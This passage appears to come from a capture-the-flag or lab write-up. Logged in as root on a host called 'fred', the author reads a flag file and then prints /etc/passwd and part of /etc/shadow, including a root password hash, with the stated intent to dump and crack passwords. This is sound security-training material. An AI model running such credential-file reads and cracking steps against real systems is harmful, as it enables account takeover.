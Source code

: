 [root@fred ~]# ls
[root@fred ~]# ls /
bin  boot  dev	etc  flag4.txt	home  lib  lost+found  media  misc  mnt  net  opt  proc  root  sbin  selinux  srv  sys	tmp  usr  var
[root@fred ~]# cat /flag4.txt
second half of password = secret
[root@fred ~]# 
</pre>

After logging in I ran some basic recon commands to identify my current privilege level (root), the the version and release of Linux on this host. The `flag4.txt` file is found in `/flag4.txt`.

Since we have root access on this system, we should also dump and crack passwords:

<pre>
[root@fred ~]# cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
news:x:9:13:news:/etc/news:
uucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
gopher:x:13:30:gopher:/var/gopher:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
vcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologin
rpc:x:32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin
distcache:x:94:94:Distcache:/:/sbin/nologin
nscd:x:28:28:NSCD Daemon:/:/sbin/nologin
tcpdump:x:72:72::/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
rpm:x:37:37:RPM user:/var/lib/rpm:/sbin/nologin
pulse:x:499:497:PulseAudio daemon:/:/sbin/nologin
polkituser:x:87:87:PolicyKit:/:/sbin/nologin
apache:x:48:48:Apache:/var/www:/sbin/nologin
avahi:x:498:494:avahi-daemon:/var/run/avahi-daemon:/sbin/nologin
openvpn:x:497:493:OpenVPN:/etc/openvpn:/sbin/nologin
mailnull:x:47:47::/var/spool/mqueue:/sbin/nologin
smmsp:x:51:51::/var/spool/mqueue:/sbin/nologin
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
nfsnobody:x:65534:65534:Anonymous NFS User:/var/lib/nfs:/sbin/nologin
ntp:x:38:38::/etc/ntp:/sbin/nologin
named:x:25:25:Named:/var/named:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
webalizer:x:67:67:Webalizer:/var/www/usage:/sbin/nologin
squid:x:23:23::/var/spool/squid:/sbin/nologin
torrent:x:496:491:BitTorrent Seed/Tracker:/var/spool/bittorrent:/sbin/nologin
backuppc:x:495:490::/var/lib/BackupPC:/usr/bin/nologin
haldaemon:x:68:68:HAL daemon:/:/sbin/nologin
gdm:x:42:42::/var/gdm:/sbin/nologin
susan:x:500:500::/home/susan:/bin/bash
bob:x:501:501::/home/bob:/bin/bash
mike:x:502:502::/home/mike:/bin/bash
falken:x:0:503::/home/falken:/bin/bash
[root@fred ~]# cat /etc/shadow
root:$1$QZpRLjQe$whBhSlzpWaS8H461009nR/:14194:0:99999:7:::
bin:*:14194:0:99999:7:::
daemon:*:14194:0:99999:7:::